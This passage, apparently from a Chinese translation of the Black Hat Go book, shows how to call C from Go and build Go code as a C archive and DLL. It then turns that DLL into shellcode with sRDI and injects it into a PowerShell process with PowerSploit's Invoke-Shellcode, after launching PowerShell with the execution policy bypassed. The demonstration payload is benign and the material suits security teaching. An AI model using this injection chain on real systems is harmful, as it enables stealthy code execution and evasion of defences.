访问 Windows API 的另一种方法是利用 C 语言。通过直接使用 C，你可以利用只在 C 中可用的现有库，创建 DLL（这是仅使用 Go 无法做到的），或者简单地调用 Windows API。在本节中，我们将首先安装并配置一个与 Go 兼容的 C 工具链。接下来，我们将通过示例学习如何在 Go 程序中使用 C 代码，以及如何在 C 程序中包含 Go 代码。

#### 安装 C Windows 工具链

要编译包含 Go 和 C 代码组合的程序，你需要一个合适的 C 工具链，用于构建 C 代码部分。在 Linux 和 macOS 上，你可以使用包管理器安装 GNU 编译器集合（GCC）。在 Windows 上，安装和配置工具链稍微复杂一些，如果你不熟悉众多可用选项，可能会感到沮丧。我们找到的最佳选择是使用 MSYS2，它打包了 MinGW-w64，这是一个支持在 Windows 上使用 GCC 工具链的项目。请从[*https://www.msys2.org*/](https://www.msys2.org/)下载并安装，并按照页面上的说明安装 C 工具链。同时，记得将编译器添加到你的 `PATH` 变量中。

#### 使用 C 和 Windows API 创建消息框

现在我们已经配置并安装了 C 工具链，让我们看一个简单的 Go 程序，利用嵌入的 C 代码。Listing 12-24 包含了使用 Windows API 创建消息框的 C 代码，展示了 Windows API 的视觉效果。

```
   package main

❶ /*
   #include <stdio.h>
   #include <windows.h>

❷ void box()
   {
       MessageBox(0, "Is Go the best?", "C GO GO", 0x00000004L);
   }
   */
❸ import "C"
   func main() {

    ❹ C.box()
   }
```

*Listing 12-24: Go 使用 C (*[/ch-12/messagebox/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/messagebox/main.go)*)*

C 代码可以通过外部文件的 `include` 语句提供 ❶。它也可以直接嵌入到 Go 文件中。这里我们使用了这两种方法。要将 C 代码嵌入 Go 文件中，我们使用注释，在注释内部定义一个创建 `MessageBox` 的函数 ❷。Go 支持用于许多编译时选项的注释，包括编译 C 代码。在闭合注释标签后，我们使用 `import "C"` 告诉 Go 编译器使用 CGO，这是一个允许 Go 编译器在构建时链接本地 C 代码的包 ❸。在 Go 代码中，我们现在可以调用在 C 中定义的函数，我们调用 `C.box()` 函数，这会执行我们在 C 代码体内定义的函数 ❹。

使用`go build`构建示例代码。执行时，你应该会看到一个消息框。

**注意**

*虽然 CGO 包非常方便，允许你从 Go 代码调用 C 库，也可以从 C 代码调用 Go 库，但使用它会使 Go 的内存管理器和垃圾回收功能失效。如果你想充分利用 Go 的内存管理器，你应该在 Go 中分配内存，然后将其传递给 C。否则，Go 的内存管理器将不知道你使用 C 内存管理器所做的分配，除非你调用 C 的本地 free()方法，否则这些分配不会被释放。没有正确释放内存可能会对 Go 代码产生不利影响。最后，就像在 Go 中打开文件句柄一样，在你的 Go 函数中使用 defer，以确保任何 Go 引用的 C 内存都能被垃圾回收。*

#### 将 Go 构建为 C

就像我们可以将 C 代码嵌入 Go 程序中一样，我们也可以将 Go 代码嵌入 C 程序中。这很有用，因为截至目前，Go 编译器无法将我们的程序构建为 DLL。这意味着我们不能仅通过 Go 构建反射 DLL 注入有效载荷（就像我们在本章早些时候创建的那样）等实用程序。

然而，我们可以将 Go 代码构建为 C 档案文件，然后使用 C 将该档案文件构建为 DLL。在本节中，我们将通过将 Go 代码转换为 C 档案文件来构建一个 DLL。然后，我们将使用现有工具将该 DLL 转换为 shellcode，以便在内存中注入并执行它。让我们从 Go 代码（Listing 12-25）开始，保存为名为*main.go*的文件。

```
   package main
❶ import "C"
   import "fmt"
❷ //export Start
❸ func Start() {
       fmt.Println("YO FROM GO")
   }

❹ func main() {
   }
```

*Listing 12-25: Go 有效载荷 (*[/ch-12/dllshellcode/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/dllshellcode/main.go)*)*

我们导入 C 以便在构建中包含 CGO ❶。接下来，我们使用注释告诉 Go 我们希望在 C 档案中导出一个函数 ❷。最后，我们定义要转换为 C 的函数 ❸。`main()`函数 ❹ 可以保持为空。

要构建 C 档案，执行以下命令：

```
> go build -buildmode=c-archive
```

现在我们应该有两个文件，一个名为*dllshellcode.a*的档案文件和一个名为*dllshellcode.h*的关联头文件。我们还不能使用这些文件。我们需要在 C 中构建一个 shim，并强制编译器包括*dllshellcode.a*。一种优雅的解决方案是使用函数表。创建一个包含 Listing 12-26 中代码的文件。将此文件命名为*scratch.c*。

```
#include "dllshellcode.h"
void (*table[1]) = {Start};
```

*Listing 12-26: 保存在* scratch.c *文件中的函数表 (*[/ch-12/dllshellcode/scratch.c](https://github.com/blackhat-go/bhg/blob/master/ch-12/dllshellcode/scratch.c)*)*

现在，我们可以使用 GCC 通过以下命令将*scratch.c* C 文件构建为 DLL：

```
> gcc -shared -pthread -o x.dll scratch.c dllshellcode.a -lWinMM -lntdll -lWS2_32
```

为了将 DLL 转换为 shellcode，我们将使用 sRDI ([*https://github.com/monoxgas/sRDI/*](https://github.com/monoxgas/sRDI/))，这是一个功能强大的工具，拥有大量功能。首先，使用 Windows 上的 Git 下载该仓库，也可以选择使用 GNU/Linux 机器，因为你可能会发现 GNU/Linux 更容易获得 Python 3 环境。你需要 Python 3 来完成这个练习，因此如果尚未安装，请先安装 Python 3。

在 *sRDI* 目录下，执行一个 `python3` shell。使用以下代码生成导出函数的哈希值：

```
>>> from ShellCodeRDI import *
>>> HashFunctionName('Start')
1168596138
```

sRDI 工具将使用哈希值来识别我们稍后生成的 shellcode 中的一个函数。

接下来，我们将利用 PowerShell 工具来生成和执行 shellcode。为了方便起见，我们将使用 PowerSploit ([*https://github.com/PowerShellMafia/PowerSploit*](https://github.com/PowerShellMafia/PowerSploit)*/)* 中的一些工具，这是一套我们可以用来注入 shellcode 的 PowerShell 工具。你可以通过 Git 下载这个工具集。在 *PowerSploit\CodeExecution* 目录下，启动一个新的 PowerShell shell：

```
c:\tools\PowerSploit\CodeExecution> powershell.exe -exec bypass
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
```

现在从 PowerSploit 和 sRDI 导入两个 PowerShell 模块：

```
PS C:\tools\PowerSploit\CodeExecution> Import-Module .\Invoke-Shellcode.ps1
PS C:\tools\PowerSploit\CodeExecution> cd ..\..\sRDI
PS C:\tools\sRDI> cd .\PowerShell\
PS C:\tools\sRDI\PowerShell> Import-Module .\ConvertTo-Shellcode.ps1
```

导入这两个模块后，我们可以使用 sRDI 中的 `ConvertTo-Shellcode` 将 DLL 转换为 shellcode，然后通过 PowerSploit 中的 `Invoke-Shellcode` 执行注入演示。执行完成后，你应该能看到你的 Go 代码开始执行：

```
PS C:\tools\sRDI\PowerShell> Invoke-Shellcode -Shellcode (ConvertTo-Shellcode
-File C:\Users\tom\Downloads\x.dll -FunctionHash 1168596138)

Injecting shellcode into the running PowerShell process!
Do you wish to carry out your evil plans?
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): Y
YO FROM GO
```

消息 `YO FROM Go` 表明我们已成功从一个转换为 shellcode 的 C 二进制文件中启动了 Go 负载。这为我们打开了许多可能性。

### 总结

这讨论的内容很多，但仅仅是表面而已。我们以简短的讨论开始了如何浏览 Windows API 文档，以便你熟悉如何将 Windows 对象与可用的 Go 对象进行对应：这些对象包括函数、参数、数据类型和返回值。接下来，我们讨论了如何使用 `uintptr` 和 `unsafe.Pointer` 执行不同类型转换，这是与 Go 的 `syscall` 包交互时必须的操作，同时介绍了需要避免的潜在陷阱。然后，我们通过一个使用多种 Go 系统调用与 Windows 进程内部交互的进程注入示例，把所有内容联系在一起。

然后，我们讨论了 PE 文件格式的结构，并构建了一个解析器来导航不同的文件结构。我们演示了各种 Go 对象，使得浏览二进制 PE 文件变得更加方便，并且介绍了在给 PE 文件植入后门时可能会有兴趣关注的偏移量。

最后，你构建了一个工具链来与 Go 和原生 C 代码进行互操作。我们简要讨论了 CGO 包，同时重点介绍了创建 C 代码示例和探索创建原生 Go DLL 的新工具。

拿下这一章，并扩展你所学到的内容。我们敦促你不断构建、打破和研究众多的攻击学科。Windows 攻击面在不断演变，拥有正确的知识和工具将有助于使对抗之旅更加可达。
